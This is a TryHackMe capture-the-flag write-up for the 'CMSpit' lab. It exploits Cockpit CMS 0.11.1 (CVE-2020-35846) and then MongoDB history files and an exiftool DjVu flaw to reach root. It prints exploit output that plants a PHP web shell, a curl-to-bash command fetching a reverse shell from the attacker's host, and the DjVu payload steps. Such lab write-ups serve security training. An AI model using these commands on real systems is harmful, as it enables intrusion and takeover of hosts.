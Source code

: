 # 79 - CMSpit (CockPit CMS exploitation, MongoDB exploitation)

Room Link --> [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```
nmap -Pn -n -vvv -T4 10.10.152.31 -p-


```
{% endcode %}

The webserver is running `CockPit CMS version 0.11.1` .

Default credentials didn't work.&#x20;

Some Resources used to answer the Questions:

* [https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/](https://exploit-notes.hdks.org/exploit/web/cms/cockpit-cms-pentesting/)
*

### Users Enumeration

Tool link --> [https://github.com/0z09e/CVE-2020-35846](https://github.com/0z09e/CVE-2020-35846)

```bash
dking@dking ~/Downloads$ python3 exploit.py http://10.10.152.31/                                            2 ↵  
[*] Target : http://10.10.152.31
[*] Sending request to dump users.
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
[+] Changing password of admin
[*] Requesting for password reset token
[+] Found token for user admin : rp-247cb14d16593ad15dcaf8483dccc6906557d48fa0ce0
[+] Dumping admin's data
[+] Username : admin
[+] Email : admin@yourdomain.de
[+] Group : admin
[+] Hash : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
[*] Resetting admin's password.
[+] Password reset succcessful
[+] New password of admin : P@ssw0rd
[*] Logging in as admin
[+] Successfully logged in as admin
[+] Bingoo, File has been deployed successfully : 1HpuLW.php
[+] File's location : http://10.10.152.31/1HpuLW.php
[*] Execution example : http://10.10.152.31/1HpuLW.php?cmd=id
[+] Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
[+] Good luck for Privilege Escalation :)

```

```
[+] Found Users : ['admin', 'darkStar7471', 'skidy', 'ekoparty']
```

Password for `admin` has been reset to `P@ssw0rd`&#x20;

We have RCE on this link --> [http://10.10.152.31/1HpuLW.php?cmd=id](http://10.10.152.31/1HpuLW.php?cmd=id)

<figure><img src=".gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### Initial Access

Copied bash rev shell into a `shell.sh` in my kali, then host it with python3 web server, setup NC listener then execute:&#x20;

[http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.152.31/1HpuLW.php?cmd=curl%20http://10.18.88.214/shell.sh|bash)

And got shell.

<figure><img src=".gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to stux

Goto `/home/stux` dir, there is a `.dbshell` file there it contains history of MongoDB cmds.

```bash
www-data@ubuntu:/home/stux$ cat .dbshell
cat .dbshell
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
www-data@ubuntu:/home/stux$ 
```

`stux : p4ssw0rdhack3d!123` .

And we ssh into stux acct.

### Priv Esc to root

`sudo -l` .

```bash
stux@ubuntu:~$ sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool

```

Check exiftool version: `exiftool -ver` --> 12.05

Search for the exploit in google.

[https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2](https://gist.github.com/ihebski/cfbec41067f259efdc07f1587b268ab2)

```
1. Convert any PDF file to .djvu;
pdf2djvu document.pdf -o fuzz.djvu 

2. create file.dsed
(metadata
        ("\c${system '/bin/bash'}")
.

3. Generate the exploit file
djvumake fuzz.djvu INFO=0,0 BGjp=/dev/null ANTa=file.dsed

4. launch it.
sudo /usr/local/bin/exiftool fuzz.djvu
```

Got root.

